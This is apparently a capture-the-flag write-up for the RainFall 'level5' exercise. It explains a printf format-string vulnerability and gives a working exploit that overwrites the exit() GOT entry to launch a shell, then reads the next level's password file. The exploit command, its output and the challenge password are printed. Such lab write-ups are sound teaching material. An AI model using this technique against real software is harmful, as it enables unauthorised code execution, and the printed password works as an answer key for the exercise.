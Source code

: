 # **Level5**

## **Analysis**

**In `main` :**

- call to function `n()`

**In `n()` :**

- `fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
- and used in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
- terminated by an `exit()`

We also have a function `o()` never used

**In `o()` :**
- it calls a `system("/bin/sh")`
- terminated by an `exit()`

`o()` adress : 0x080484a4

`exit()` adress: 0x8049838
```
(gdb) info function
All defined functions:
...
0x080483d0  exit
0x080483d0  exit@plt
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

(gdb) x 0x080483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
```

___

## **Exploit**

If we try to store a buffer `ABCD`, its done on the fourth position
```
level5@RainFall:~$ python -c 'print "ABCD" + " %4$x"' | ./level5
ABCD 44434241
```

But we cannot use ret because of the `exit()`
We'll change the adress ont he GOT (Global Offset Table) to point to `o()` adress

> 0x8049838 [exit] -> 0x080484a4 [o()]

```
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/level5 && cat /tmp/level5 - | ./level5
...
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

___

*Password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a*
